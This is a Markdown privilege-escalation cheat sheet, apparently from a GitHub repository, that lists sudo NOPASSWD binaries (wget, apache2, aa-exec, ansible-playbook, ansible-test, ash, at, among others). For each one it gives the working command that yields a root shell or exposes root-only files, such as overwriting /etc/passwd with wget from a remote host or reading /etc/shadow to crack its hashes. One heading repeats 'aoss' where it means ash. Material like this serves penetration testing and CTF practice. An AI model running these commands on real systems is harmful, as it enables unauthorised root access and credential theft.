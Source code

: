 ## wget
> (root) NOPASSWD: /usr/bin/wget
- Modify the copied of /etc/passwd with given password and then replace the original using wget.
- Replace "x" with custom generated hash and use that generated password to login as root.
```bash
sudo wget <url that host passwd file> -O /etc/passwd
```

## apache2
> (root) NOPASSWD: /usr/sbin/apache2
- Use apache2 to access root protected file such as /etc/shadow
- Crack the hash to get password
```bash
sudo apache2 -f /etc/shadow
```

## aa-exec
> (root) NOPASSWD: /usr/bin/aa-exec
```bash
sudo aa-exec /bin/sh -i
```

## ansible-playbook
> (root) NOPASSWD: /usr/bin/ansible-playbook
```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo ansible-playbook $TF
```

## ansible-test
> (root) NOPASSWD: /usr/bin/ansible-test
```bash
sudo ansible-test shell
```

## aoss
> (root) NOPASSWD: /usr/bin/aoss
```bash
sudo aoss /bin/sh
```

## aoss
> (root) NOPASSWD: /usr/bin/ash
```bash
sudo ash
```

## at
> (root) NOPASSWD: /usr/bin/at
Prerequisite: `atd must be running`
```bash
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null
```
